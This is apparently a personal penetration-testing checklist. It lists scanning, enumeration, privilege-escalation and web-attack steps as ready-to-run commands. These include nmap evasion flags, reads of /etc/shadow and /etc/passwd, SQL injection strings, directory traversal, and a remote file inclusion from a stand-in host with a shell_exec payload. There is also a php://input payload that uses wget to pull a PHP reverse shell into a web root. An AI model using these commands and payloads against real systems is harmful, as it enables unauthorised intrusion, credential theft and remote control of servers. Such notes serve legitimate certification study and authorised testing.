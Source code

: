 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
        - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
  - SAFE SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
  - ``` nmap -sU -T3 Ip-target -v ```
  - ```--source-port 100 ``` just to try evade, change to well-known port number 
- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8 ``` (Many others check -H)
  - ``` dirb http://Ip-target -r ``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary 
  - Try nmap ``` -–script=http-enum.nse ``` (others available)
  - Check site in browser (http/https)
   - Resolve host name if necessary (etc/hosts)
   - Cookies
   - GET / POST
   - Check source
    - Directories
    - Comments
    - Script links
    - Form methods
    - Login forms
     - Versions/names/brands etc
      - Basic sql injection
        -``` ‘or 1=1```
        -```union```
- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    -```smbclient \\\\ip\\share```
   - try to connect to them to see if they are truly alive
   - Banner grabbing even if booted
   - ```nbtscan [ip-range]``` (https://highon.coffee/blog/nbtscan-cheat-sheet/)
   
- Port 22
  - Banner grabbing
    -```ssh root@192.192.192.192```
- Port 21
  - Banner grabbing
  -```ftp root@ip-target```
  - Try anonymous login
  - Set to BINARY for exe
  - PUT / DELETE 
  - Check for version numbers
  - use searchsploit / google for known vulns

<H2>Linux</H2>

- Low priv 
  - find writeable directories if /tmp or /dev/shm not available
    - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
    -```>``` output to a file
    - ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
    - ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
    - ctrl+z backgrounds the shell on local box
      - then type: 
        - ```ssty raw -echo```
        - ```fg```
        - ```reset```
        - if size is an issue type:
          - ```stty size``` (returns current window size)
          - ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
  - if these don’t work try get kernel and distro info to look for exploits
  - ```uname -ar```
  - ```cat /etc/issue```
  - ```cat /etc/*-release```
  - ```cat /etc/lsb-release```
  - ```cat /etc/redhat-release```
  - Available programs/languages on host:
    - Perl,python etc
    - Nc,ncat,wget,curl
    - ```$fetch -o theFile http://IP:PORT/theFile``` (FreeBSD)
  - Password Files
    - /etc/pwd.db 
    - /etc/spwd.db
    - /etc/shadow
    - /etc/passwd

<H2>Windows</H2>

- Priv esc
 - Still busy gathering info... Have this so far:
 - cacls C:\WINDOWS\system32\ - This displays permissions on folder & same for file eg: cacls test.txt
 - icacls for newer Windows versions (I think Vista upwards)

<H2>Getting In</H2>
- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
    - Similar to local file inclusion while not hosted on the target
    - Rarer than LFI due to php.ini needs to configured for it 
    - Requres unsanitised parameter:
      - ```$theFile = $_REQUEST[“file”];```
      - ```Include($theFile . “.php”);```
    - Now in browser:
      - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
    - Badfile.txt:
      - ```<?php echo shell_exec("whoami");?>```

- LFI (https://highon.coffee/blog/lfi-cheat-sheet/)
  - Directory traversal
    - ```foo.php?file=../../../../../../../etc/passwd```
  - PHP ```expect:``` #Not enabled by default, uses expect wrapper to execute commands
    - http://127.0.0.1/fileincl/example1.php?page=expect://ls
  - PHP (POST request) ```php://input```
    - http://192.168.183.128/fileincl/example1.php?page= **php://input**
      - input can be: ```<? system('wget http://192.192.192.192/php-reverse-shell.php -O /var/www/shell.php');?>```
      - In browser: http://192.192.192.192/shell.php
  - PHP ```php://filter```
    - http://192.192.192.192/fileincl/example1.php?page= **php://filter/convert.base64-encode/resource=../../../../../etc/passwd**
    - Must decode the output from base64
  - /proc/self/environ (If you able to write there)
    - Manipulate ```User Agent``` in Burp
  - https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit
    - Uses phpinfo() to write temporary files together with fimap
      
- WAF
  wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
  -  ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html
- http://www.fuzzysecurity.com/tutorials/16.html - Windows Priveledge Escalation tips


